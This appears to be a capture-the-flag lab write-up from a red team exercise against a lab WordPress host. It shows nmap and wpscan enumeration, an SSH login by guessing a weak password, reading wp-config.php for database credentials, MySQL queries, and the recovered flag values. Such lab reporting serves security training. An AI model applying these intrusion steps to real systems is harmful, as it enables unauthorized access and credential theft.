# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
_TODO: Fill out the information below._

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.110
```



This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22: ssh
  - Port 80: http
  - Port 111: rpcbind
  - Port 139: netbios-ssn
  - Port 445: netbios-ssn


The following vulnerabilities were identified on each target:
- Target 1
  - Cross Site Request Forgery
  - Exposed Private Directories
  - Service regsvc in Microsoft Windows 2000 systems vulnerable to denial of service
  - Weak user password
  - unsalted hashes of user passwords
  - Incorrect configuration of User privileges (steven had python privileges)
  - Port 20 and 80 open



### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - used wpscan to identify the users on the target system
      - ssh into user michael by guessing the password as michael
      - used grep to find flag in michael's accessible directories
      - **Commands:**
      ```bash
      $ wpscan --url 192.168.1.110/wordpress --enumerate u
      $ ssh michael@192.168.1.110
      $ cd /var/www/html
      $ grep 'flag' *
      ```
  
  
  
  

  - `flag2.txt`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - was able to navigate to the /var/www directory where flag2.txt was present
      ```bash
      $ cd /var/www/html
      $ cat flag2.txt
      ```
  

    - `flag3.txt`: flag3{afc01ab56b50591e7dccf93122770cd2}
    - `flag4.txt`: flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - was able to navigate to the /var/www/html/wordpress directory where the MySQL database credentials was available under wp-config.php file
      - navigated to the MySQL database
      ```bash
      $ cd /var/www/html/wordpress
      $ cat wp-config.php
      $ mysql -u root -p
      $ show database;
      $ USE wordpress;
      $ SHOW tables;
      $ SELECT * FROM wp_post
      ```
  
  
  